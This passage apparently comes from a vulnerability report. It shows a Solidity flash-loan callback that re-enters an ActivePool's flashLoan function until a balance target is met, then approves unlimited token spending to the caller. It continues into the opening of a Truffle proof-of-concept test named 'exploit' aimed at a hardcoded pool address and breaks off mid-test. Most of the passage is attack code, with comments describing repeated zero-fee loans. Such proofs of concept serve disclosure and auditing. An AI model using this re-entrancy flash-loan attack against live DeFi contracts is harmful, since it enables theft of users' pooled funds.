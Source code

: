 ```
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32 s) {
      
    if(IERC20(token).balanceOf(address(this)) < reachedAmount) {

         // reenter the call to get your amount
IActivePool().flashLoan(address(this),"0x17144556fd3424edc8fc8a4c940b2d04936d17eb",3333,"0x00");
       }
// once gained you do the actions you want to !
   
//gain approval for collateral.transferFrom and returns flashSuccessValue
IERC20(token).approve(msg.sender,type(uint256).max);
 s = 0x439148f0bbc682ca079e46d6e2c2f0c1e3b820f1a291b069d8882abf8cf18dd9;

// the loan will be paid 3333 for eah call and each call will give back 0 fees !
   }
}

```

PoC of truffle :

```
var exploit = artifacts.require("exploit");
var ierc20 = artifacts.require("IERC20");
var iactivepool = artifacts.require("IActivePool");
const Web3 = require('web3');



contract('exploit', function(accounts){

  let stuffInstance;
  const activePoolAddress = "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590";
```
